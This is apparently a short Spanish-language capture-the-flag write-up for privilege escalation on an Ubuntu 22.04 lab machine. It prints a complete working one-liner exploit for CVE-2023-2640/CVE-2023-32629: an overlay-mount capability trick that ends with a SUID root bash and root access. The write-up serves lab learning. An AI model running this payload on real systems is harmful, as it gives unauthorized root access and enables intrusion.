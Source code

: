 #CVE-2023-2640-CVE-2023-32629

-----

Vemos que version de kernel esta corriendo con [[uname]] y el comando `uname -r` y para ver si el sistema es de 32 o 64 bits usamos `uname -m`

![[Analytics22.png]]

![[Analytics23.png]]
Y nos da que tenemos un *ubuntu 22.04* de 32 bits

Buscando informacion sobre esta version encontramos los [[CVE-2023-2640-CVE-2023-32629]]. Y encontramos el [repositorio de g1vi](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main) que nos muestra el payload que tenemos que poner para hacer la explotacion

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

![[Analytics24.png]]
Ya somos root y podemos catear las flags